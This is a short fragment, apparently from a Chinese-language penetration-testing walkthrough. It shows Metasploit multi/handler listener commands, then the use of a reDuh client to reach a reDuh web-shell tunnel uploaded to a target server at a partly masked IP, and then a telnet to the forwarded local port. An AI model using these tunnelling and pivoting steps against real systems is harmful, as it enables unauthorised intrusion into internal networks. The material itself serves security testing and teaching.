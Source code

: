  |
| 

 | 

```
msf5 exploit(multi/handler) > set rhost 127.0.0.1
```

 |
| 

 | 

```
msf5 exploit(multi/handler) > set lport 5353
```

 |
| 

 | 

```
msf5 exploit(multi/handler) > run -j
```

 |

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkojXxXvepRWy8TJb1DwI0WbkXHZZxpW7MFnSNYZB2wdeJOCDWHpaiczwpgdlDvckIYIOksvcaPpZ3w/640?wx_fmt=jpeg)

reDuhServer 传到目标机后，使用 reDuhClient 进行连接，并将反弹的端口转本地后，

| 

 | 

```
java -jar reDuhClient.jar http://103.242.xx.xx/reduh.aspx
```

 |

| 

 | 

```
telnet 127.0.0.1 1010
```
